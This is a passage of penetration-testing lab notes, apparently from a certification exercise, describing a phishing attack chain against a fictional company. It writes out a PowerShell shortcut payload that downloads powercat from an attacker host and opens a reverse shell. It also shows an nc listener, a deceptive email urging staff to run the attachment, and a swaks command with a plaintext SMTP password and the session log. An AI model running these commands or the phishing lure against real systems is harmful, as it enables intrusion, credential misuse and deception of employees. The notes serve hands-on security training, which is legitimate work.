 ```xml
</searchConnectorDescriptionList>
</libraryDescription>
```

- Save & transfer file to Kali
- Create Shortcut file on WINPREP
	- Rt-click Desktop > New > Shortcut
	- Set the location
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.170:8000/powercat.ps1'); powercat -c 192.168.45.170 -p 4444 -e powershell"
```
	- Save as `install` & transfer to webdav folder on Kali

- Copy powercat to `~/exercises/beyond/exploits`, setup a python web server on 8000, and, in another tab, a listener for 4444
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 8000

nc -nlvp 4444
```

- Craft `body.txt` for email
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```


- Send email via **swaks**
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @webdav/config.Library-ms --server 192.168.174.242 --body @exploits/body.txt --header "Subject: Staging Script" --suppress-data -ap 
	Username: john
	Password: dqsTwTpZPn#nL
	=== Trying 192.168.174.242:25...
	=== Connected to 192.168.174.242.
	<-  220 MAILSRV1 ESMTP
	 -> EHLO kali
	<-  250-MAILSRV1
	<-  250-SIZE 20480000
	<-  250-AUTH LOGIN
	<-  250 HELP
	 -> AUTH LOGIN
	<-  334 VXNlcm5hbWU6
	 -> am9obg==
	<-  334 UGFzc3dvcmQ6
	 -> ZHFzVHdUcFpQbiNuTA==
	<-  235 authenticated.
	 -> MAIL FROM:<john@beyond.com>
	<-  250 OK
	 -> RCPT TO:<marcus@beyond.com>
	<-  250 OK
	 -> DATA
	<-  354 OK, send.
	 -> 42 lines sent
	<-  250 Queued (1.031 seconds)
	 -> QUIT
	<-  221 goodbye
```